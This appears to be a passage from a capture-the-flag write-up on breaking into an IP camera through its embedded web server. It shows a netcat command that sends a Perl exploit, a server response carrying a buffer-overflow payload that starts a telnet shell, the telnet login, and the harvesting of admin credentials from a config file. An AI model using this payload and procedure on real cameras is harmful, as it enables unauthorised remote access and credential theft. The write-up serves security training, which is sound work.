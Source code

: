 Run `perl exploit.pl | nc host 50628`. After running the exploit code you will see:

```
HTTP/1.0 302 Redirect
Server: Webs
Date: Wed Dec 31 19:01:15 1969
Pragma: no-cache
Cache-Control: no-cache
Content-Type: text/html
Location: http://B���/�
                       '����qTr��p�iF�▒▒G���telnetdX-l/bin/shX/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�V@/player/mjpeg_vga.asp

<html><head></head><body>
                This document has moved to a new <a href="http://B���/�
                                                                       '����qTr��p�iF�▒▒G���telnetdX-l/bin/shX/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�V@/player/mjpeg_vga.asp">location</a>.
                Please update your documents to reflect the new location.
                </body></html>
```

Now run `telnet host 23` and we are inside the cam! 

Searching through the directories and files we found a username and password in /var/etc/umconfig.txt.

```
TABLE=users  
ROW=0  
**name=admin**  
**password=[REDACTED]**  
group=administrators prot=0 disable=0
```

In your browser go to `http:\\host:50628`  
Use the login info to login and get the flag for Question 1.

<p align="left">